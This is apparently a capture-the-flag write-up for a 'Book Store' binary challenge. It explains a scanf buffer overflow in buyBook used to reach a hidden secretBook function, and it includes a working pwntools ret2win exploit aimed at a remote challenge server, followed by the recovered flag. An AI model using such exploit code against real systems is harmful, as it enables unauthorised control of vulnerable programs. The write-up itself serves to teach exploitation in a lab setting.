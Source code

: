 # Book Store

Given an IP and port `34.101.234.148:8128` and an ELF file named `vuln`, we attempt to decompile it to understand how it works.

There is a function called `secretBook` which contains the flag, but it is not called in the main function. Then, in the buyBook function, it asks a string input of 50 characters using scanf. This is where the ret2win is.

```py
from pwn import *

elf = ELF("./vuln")
rop = ROP(elf)
r = remote("34.101.234.148", 8128)

print(r.recvuntil(': '))
r.sendline(b"1")

payload = b"A" * 58
payload += p32(rop.find_gadget(["ret"])[0])
payload += p32(elf.sym["secretBook"])
r.sendline(payload)
r.interactive()
```
```
JCTF2023{ur_ret2w1n_5ecr3t_b00k_i5_h3re}
```